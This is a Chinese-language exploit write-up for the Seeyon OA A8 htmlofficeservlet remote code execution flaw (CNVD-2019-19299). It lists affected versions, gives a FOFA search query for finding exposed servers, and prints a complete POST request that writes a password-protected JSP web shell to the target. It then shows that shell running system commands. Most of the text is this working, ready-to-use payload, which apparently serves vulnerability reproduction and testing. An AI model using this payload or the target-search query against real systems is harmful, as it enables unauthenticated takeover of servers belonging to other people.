 # 致远 OA A8 htmlofficeservlet RCE漏洞 CNVD-2019-19299

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## FOFA

> [!NOTE]
>
> title="致远A8-V5协同管理软件 V6.1sp1"

## 影响版本

> [!NOTE]
>
> 致远A8-V5协同管理软件V6.1sp1
>
> 致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
>
> 致远A8+协同管理软件V7.1

## 漏洞复现

访问目标站点 http://xxx.xxx.xxx.xxx:8088/seeyon/htmlofficeservlet

出现如下图响应，则可能含有漏洞

![](致远OA-A8-htmlofficeservlet-RCE漏洞.assets/1627363485452606.jpg)

使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![](致远OA-A8-htmlofficeservlet-RCE漏洞.assets/1627363485811827.jpg)

出现如图响应则为上传成功

访问 http://xxx.xxx.xxx.xxx:8088/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir

![](致远OA-A8-htmlofficeservlet-RCE漏洞.assets/1627363486050223.jpg)

## 漏洞利用POC

Goby中含有漏洞检测POC

![](致远OA-A8-htmlofficeservlet-RCE漏洞.assets/16273634863979661.jpg)
